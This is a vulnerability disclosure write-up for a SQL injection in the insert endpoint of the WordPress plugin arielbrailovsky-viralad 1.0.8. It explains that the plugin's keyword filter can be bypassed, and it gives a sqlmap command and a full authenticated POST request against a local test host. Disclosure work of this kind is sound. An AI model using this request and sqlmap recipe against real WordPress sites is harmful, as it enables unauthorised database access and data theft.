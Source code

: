 ### The data insertion interface of the wordpress plugin arielbrailovsky-viralad has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/arielbrailovsky-viralad/

**Version**：1.0.8

**Route**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php

**API function**: insert records

**Injection parameters**: text

**Request method**：POST

**Complete vulnerability trigger related interfaces and parameters**：[/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php]、[id=&text=123&url=http%3A%2F%2F123&active=0&priority=5&ffamily=Arial&fsize=11&fcolor=%230f0f0f&bgcolor=%23f0f0f0&bdcolor=%23555555&talign=left&fitalic=1&funderline=0&fbold=0&nocache=0.43691213689929764&security=ep15x3ftubo8dsycv7r4]

#### 1.Vulnerability analysis

In the anuncio.php file, when the request method is post and the request parameter action is empty, the incoming id, text and other parameters will be directly obtained and processed by the limpia function. If the database does not contain the record, it will be directly spliced into the insert sql statement to perform the record update operation.

![image-20250302204131906](assets/image-20250302204131906.png)

However, the limpia function only performs simple keyword filtering, which can be bypassed by attackers (such as uppercase and lowercase, keyword replacement, blind injection, etc.).

![image-20250302203943402](assets/image-20250302203943402.png)

Therefore, attackers can easily construct malicious sql injection payloads for exploitation.

#### 2.Vulnerability verification and exploitation

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
POST /wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php HTTP/1.1
Host: wp3:82
Content-Length: 230
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://wp3:82
Referer: http://wp3:82/wp-admin/options-general.php?page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C6a60c9d06464a51a9060e3fdf0020e0b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C0abf1d7f8bfba5dca9d1f96d15294f9d; wp-settings-1=m6%3Do%26m9%3Do; wp-settings-time-1=1740904532; PHPSESSID=irmjinoeft5778hb5e97i155j6
Connection: close

id=&text=123&url=http%3A%2F%2F123&active=0&priority=5&ffamily=Arial&fsize=11&fcolor=%230f0f0f&bgcolor=%23f0f0f0&bdcolor=%23555555&talign=left&fitalic=1&funderline=0&fbold=0&nocache=0.43691213689929764&security=ep15x3ftubo8dsycv7r4
```



![image-20250302203816868](assets/image-20250302203816868.png)
